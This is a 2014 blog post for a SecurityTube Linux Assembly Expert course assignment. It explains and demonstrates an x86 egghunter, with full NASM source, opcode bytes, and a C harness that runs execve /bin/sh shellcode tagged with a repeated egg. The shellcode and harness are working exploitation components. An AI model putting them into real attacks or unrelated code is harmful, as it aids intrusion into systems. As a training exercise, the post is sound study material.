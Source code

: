 ```yaml
---
comments: true
date: 2014-04-09
layout: blog
title: 'SLAE Assignment 3: EggHunter Demo'
summary: '3rd assignment of the SLAE'
category: blog
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the third of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Study about EggHunter
	
  2. Make a working demo
	
  3. Make it configurable for different payload

An EggHunter is a small piece of code that search to a pattern (the egg) into the memory and once the pattern is found the shellcode will be executed. Tipically the egg is wrote twice, this to avoid the problem of finding an identical sequence in some other part of the memory.

The following is a PoC of an EggHunter:

```c    
unsigned char egghunter[] = "egghunter shellcode"
unsigned char shellcode[] = \
"egg"
"egg"
"execve /bin/sh shellcode"

int main(void){
    run(egghunter);
    return 0;
}
```

This is the complete shellcode:

```nasm    
;Description:	Assignment #3 (EggHunter, 34 bytes)
;Shellcode:		\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0
;Author: 		Paolo Stivanin <https://github.com/polslinux>
;SLAE ID:		526

global _start
section .text
_start:
	fldz
	fstenv [esp-0xc]
	pop eax
lp1:
	inc eax
	xor ebx,ebx
	mov cl,2
lp2:
	cmp dword [eax+ebx],0xddccbbaa
	jne lp1
	add ebx,4	;the egg must be found twice so i check eax and eax+4
	dec cl		;this is a counter to track how many times the egg has been found
	jnz lp2
	lea eax,[eax+8]	;if the egg has been found then jmp into the shellcode
	jmp eax
```

In this shellcode I didn't use the jmp-call-pop technique (which is more ids friendly) but instead I used two FPU instructions:

  * `fldz` to push +0.0 onto the FPU register stack
	
  * `fstenv [esp-0xc]` to save the current FPU operating environment at the specified memory location
	
  * and then `pop eax` . Now `eax` contains the address offldz

The following is the graph of the egghunter shellcode flow:

[![graph_assign3]({{ site.baseurl }}/images/2014/04/graph_assign3-1024x601.png)]({{ site.baseurl }}/images/2014/04/graph_assign3.png)

This is the C source file:

```c    
/* Description:	EggHunter(execve(/bin/sh))
 * Author:	Paolo Stivanin <https://github.com/polslinux>
 * SLAE ID:	526
 */

#include <stdio.h>
#include <string.h>

unsigned char eggHunter[] = \
"\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0";

unsigned char execveShellcode[] = \
"\xaa\xbb\xcc\xdd" //egg
"\xaa\xbb\xcc\xdd" //egg
"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

int main(void){
	printf("EggHunter: %zu\n", strlen(eggHunter));
	printf("Shellcode: %zu\n", strlen(execveShellcode));
	int (*ret)() = (int(*)())eggHunter;
	ret();
	return 0;
}
```

and the following is the result of the above snippet:

[![assign3]({{ site.baseurl }}/images/2014/04/assign3-1024x552.png)]({{ site.baseurl }}/images/2014/04/assign3.png)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
